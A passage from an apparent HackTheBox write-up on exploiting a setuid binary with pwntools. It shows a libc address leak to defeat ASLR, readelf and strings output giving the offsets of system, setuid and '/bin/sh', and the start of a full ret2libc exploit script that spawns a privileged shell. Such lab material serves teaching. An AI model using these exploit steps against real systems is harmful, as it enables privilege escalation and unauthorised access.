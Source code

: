 ```python
leaked_printf = u64(leaked_printf)
log.success("Leaked printf@GLIBC: " + hex(leaked_printf))
```
<br>
This will return the following output. Notice the changing address at each run.
<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# python exploit.py 
[+] Starting local process './garbage': pid 7677
[+] Leaked printf@GLIBC: 0x7fe5bea57440
[*] Stopped process './garbage' (pid 7677)
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# python exploit.py 
[+] Starting local process './garbage': pid 7681
[+] Leaked printf@GLIBC: 0x7fb444bc4440
[*] Stopped process './garbage' (pid 7681)
```
<br>
The rest is easy. We will calculate the libc base address and using it we can calculate the address of any function in libc. Which addresses do we need? To spawn a shell we need the address of the system function and the address of the "/bin/sh" string. Original binary on the hackthebox machine has setuid bit so we are going to go for the extra juice here and call setuid to elevate our priviledges. Summing up:
<br>
1. Offset of system in libc
2. Offset of setuid in libc
3. Offset of "/bin/sh" string in libc

<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
   235: 000000000012c3d0    99 FUNC    GLOBAL DEFAULT   14 svcerr_systemerr@@GLIBC_2.2.5
   616: 0000000000048880    45 FUNC    GLOBAL DEFAULT   14 __libc_system@@GLIBC_PRIVATE
  1426: 0000000000048880    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5
```
<br>
Offset of system@GLIBC: **0x48880**
<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep setuid
    25: 00000000000cbbe0   144 FUNC    WEAK   DEFAULT   14 setuid@@GLIBC_2.2.5
```
<br>
Offset of setuid@GLIBC: **0xcbbe0**
<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 1881ac /bin/sh
```
<br>
Offset of "/bin/sh": **0x1881ac**
<br>
Let's code the second stage of our exploit and finish it. Below is the full code.
<br>
```python
from pwn import *

p = process("./garbage")

# Stage 1 (Leaking the address of printf@GLIBC)
plt_main = p64(0x401619)
plt_put = p64(0x401050)
got_printf = p64(0x404048)
```